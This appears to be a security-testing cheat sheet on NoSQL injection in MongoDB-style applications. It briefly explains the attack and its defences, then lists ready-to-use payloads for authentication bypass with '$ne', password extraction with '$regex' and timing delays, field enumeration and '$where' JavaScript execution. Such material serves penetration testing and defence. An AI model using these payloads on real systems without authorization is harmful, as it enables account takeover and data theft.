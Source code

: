 # NoSQL injection

### Whats NoSQL Injection

NoSQL Injection diverges from SQL Injection primarily due to differences in query syntax and execution. Unlike SQL databases, NoSQL databases utilize varied query formats, such as JSON or XML, leading to distinct attack vectors.

In SQL Injection, attackers exploit vulnerabilities by injecting SQL commands into input fields. In contrast, NoSQL Injection manipulates input data to disrupt query execution within NoSQL databases, often bypassing traditional sanitization checks.

SQL Injection typically targets the database engine, while NoSQL Injection may occur at different layers of the application stack, depending on the database API and data model.

For instance, consider login queries. In SQL, a query might be:

```sql
SELECT * FROM users WHERE user = '$username' AND pass = '$password'
```

In MongoDB, using JSON-like syntax, the equivalent query would be:

```javascript
db.users.find({user: username, pass: password});
```

In MongoDB, parameters are passed within a `find()` function, without quotation marks, reflecting the database's distinct syntax.

To defend against NoSQL Injection, implement robust input validation, parameterized queries, and context-aware sanitization techniques tailored to the database's query format. Understanding these nuances is crucial to fortify applications against evolving security threats.

### Syntax Injection Test Cases:

1. **Testing Query Syntax**:
   * Submit fuzz strings and special characters to test query syntax.
   * Example Payload: `'"{;$Foo}$Foo \xYZ`
2. **Determining Processed Characters**:
   * Inject individual characters to identify syntax interpretation.
   * Example Payload: `'`
3. **Confirming Conditional Behavior**:
   * Test false and true conditions to observe differences in application behavior.
   * Example Payloads:
     * False Condition: `' && 0 && 'x`
     * True Condition: `' && 1 && 'x`
4. **Overriding Conditions**:
   * Inject conditions that always evaluate to true to exploit vulnerabilities.
   * Example Payload: `'%27%7c%7c%31%7c%7c%27`

#### Operator Injection Test Cases:

1. **Submitting Query Operators**:
   * Insert query operators via JSON messages or URL parameters.
   *   Example Payload:&#x20;

       `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
2. **Extracting Data Using Operators**:
   * Utilize query operators to manipulate queries and extract data.
   *   Example Payload:&#x20;

       `{"username":"admin","password":{"$regex":"^.*"}}`
3. **Testing Field Names**:
   * Identify valid fields in the collection to extract data.
   * Example Payloads:
     * Existing Field: `admin' && this.username!='`
     * Non-existent Field: `admin' && this.foo!='`
4. **Injecting Operators for JavaScript Execution**:
   * Use injected operators to execute JavaScript and extract data.
   * Example Payload: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
5. **Timing-Based Injection**:
   * Trigger time delays to detect and exploit vulnerabilities.
   *   Example Payload:&#x20;

       `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`

#### General Guidelines:

* **Adaptation**: Customize payloads based on specific application contexts.
* **Encoding**: Encode payloads as necessary, particularly for URL-based injections.
* **Validation**: Verify responses for changes/error messages indicating successful exploitation.
